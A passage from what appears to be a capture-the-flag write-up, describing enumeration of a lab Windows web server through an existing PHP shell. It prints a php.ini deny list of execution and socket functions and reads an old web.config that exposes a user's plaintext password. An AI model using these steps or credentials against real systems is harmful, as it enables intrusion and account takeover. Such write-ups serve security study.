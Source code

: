 
#### Enumeration

Armed with this shell, I can more easily enumerate the box. I’ll check out the
`php.ini` file at `..\..\..\..\..\Progra~1\php\v7.2\php.ini`. There I’ll find
this line:

    
    
    disable_functions = phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,fsockopen,socket_create,socket_connect,eval
    

That explains why I can’t get a webshell to run, as all of the execution
commands are restricted, as well as the socket ones.

I’ll also look up a directory from the current, and in the root of the admin
page, see `web.config.old`, which has creds for the user simple in it:

    
    
    > dir ..
    Array
    (
        [0] => .
        [1] => ..
        [2] => 2bb6916122f1da34dcd916421e531578
        [3] => App_Data
        [4] => aspnet_client
        [5] => css
        [6] => img
        [7] => index.php
        [8] => js
        [9] => logs
        [10] => web.config
        [11] => web.config.old
    )
    1
    
    > type ../web.config.old
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
        <system.webServer>
            <authentication mode="Windows">
            <identity impersonate="true"                 
                userName="simple" 
                password="ZonoProprioZomaro:-("/>
         </authentication>
            <directoryBrowse enabled="false" showFlags="None" />
        </system.webServer>
    </configuration>
    

These creds look like they might be Windows user credentials.i

### Shell over WinRm Through Proxy
